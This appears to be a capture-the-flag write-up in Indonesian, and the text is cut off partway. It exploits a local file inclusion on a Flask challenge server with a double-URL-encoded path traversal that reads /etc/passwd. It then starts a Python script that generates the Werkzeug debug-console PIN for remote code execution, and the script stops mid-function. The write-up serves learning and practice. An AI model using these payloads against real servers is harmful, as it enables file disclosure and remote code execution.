 kita diberikan link website http://167.99.8.90:7777/ dimana vulnerable dengan lfi. Ini bisa kita ketahui saat menginputkan inputan yang ter-urlencoded 2x maka akan terbaca sebagai "../../../../../../../../../../../../../etc/passwd" di server mengembalikan  /etc/passwd sebagai output

```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

![](Pasted%20image%2020230122064152.png)

Karna web ini menggunakan framework flask, kita juga mengecek route "/console" yang bisa gunakan untuk mendapatkan RCE.

Nah karna kita sudah ketahui website ini ada vulnerability RCE dan flask Debug mode. Kita bisa menggenerate flask pin, sebagai referensi saya cantumkan link berikut:  
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

Berikut script yang saya gunakan untuk mendapatkan pin:

```python
import requests
from requests import Response
import re
import hashlib
from itertools import chain
import binascii

URL = "http://167.99.8.90:7777"

def gen_pin(probably_public_bits, private_bits):
    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    # cookie_name = '__wzd' + h.hexdigest()[:20]

```